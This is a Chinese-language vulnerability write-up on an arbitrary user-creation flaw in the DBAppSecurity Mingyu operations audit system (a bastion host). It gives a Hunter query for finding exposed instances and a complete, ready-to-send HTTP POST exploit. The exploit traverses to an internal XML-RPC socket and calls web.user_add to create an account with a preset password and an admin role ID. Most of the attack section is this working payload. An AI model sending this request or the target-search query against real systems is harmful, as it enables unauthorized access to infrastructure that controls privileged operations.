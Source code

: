 # 安恒堡垒机任意用户添加漏洞

# 一、漏洞简介
安恒明御运维审计与风险控制系统（简称“DASUSM”）是一款基于运维安全管理的理论和实践经验，结合各类法律法规（如等级保护、赛班斯法案SOX、PCI、企业内控管理、分级保护、ISO/IEC 27001等）对运维审计的要求，采用B/S架构，集“身份认证（Authentication）、账户管理（Account）、控制权限（Authorization）、日志审计（Audit）”于一体，支持多种字符终端协议、文件传输协议、图形终端协议、远程应用协议的安全监控与历史查询，具备全方位运维风险控制能力的统一安全管理与审计产品。安恒明御运维审计风险控制系统（堡垒机）存在任意用户添加漏洞，攻击者可利用该漏洞添加用户登录堡垒机。

# 二、影响版本
+ 安恒明御运维审计与风险控制系统

# 三、资产测绘
+ hunter:`app.name=="安恒明御运维审计与风险控制系统"`

![1691393320775-2fcf53cd-f670-4d22-a04e-ae7f76d4cb44.png](./img/cmq6DHY7F_D9I14C/1691393320775-2fcf53cd-f670-4d22-a04e-ae7f76d4cb44-574865.png)

+ 首页

![1691393366555-3c70041c-447d-415f-a6e6-bd852a153318.png](./img/cmq6DHY7F_D9I14C/1691393366555-3c70041c-447d-415f-a6e6-bd852a153318-116673.png)

# 四、漏洞复现
使用exp添加用户`qaxnb666/Admin123..`

```java
POST /service/?unix:/../../../../var/run/rpc/xmlrpc.sock|http://test/wsrpc HTTP/1.1
Host: xx.xx.xx.xx
Content-Length: 1112

<?xml version="1.0"?>
<methodCall>
<methodName>web.user_add</methodName>
<params>
<param>
<value>
<array>
<data>
<value>
<string>admin</string>
</value>
<value>
<string>5</string>
</value>
<value>
<string>10.17.1.1</string>
</value>
</data>
</array>
</value>
</param>
<param>
<value>
<struct>
<member>
<name>uname</name>
<value>
<string>qaxnb666</string>
</value>
</member>
<member>
<name>name</name>
<value>
<string>yuwe</string>
</value>
</member>
<member>
<name>pwd</name>
<value>
<string>Admin123..</string>
</value>
</member>
<member>
<name>authmode</name>
<value>
<string>1</string>
</value>
</member>
<member>
<name>deptid</name>
<value>
<string></string>
</value>
</member>
<member>
<name>email</name>
<value>
<string></string>
</value>
</member>
<member>
<name>mobile</name>
<value>
<string></string>
</value>
</member>
<member>
<name>comment</name>
<value>
<string></string>
</value>
</member>
<member>
<name>roleid</name>
<value>
<string>101</string>
</value>
</member>
</struct></value>
</param>
</params>
</methodCall>
```

![1691393678758-f523c4a1-eb67-42fb-ae42-b3bb5c838378.png](./img/cmq6DHY7F_D9I14C/1691393678758-f523c4a1-eb67-42fb-ae42-b3bb5c838378-529529.png)

![1691393729985-1a6856f8-5697-483e-a696-b7f1f69a28e9.png](./img/cmq6DHY7F_D9I14C/1691393729985-1a6856f8-5697-483e-a696-b7f1f69a28e9-029750.png)



> 更新: 2024-02-29 23:57:16  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/uw8xn0gy2yh82z2w>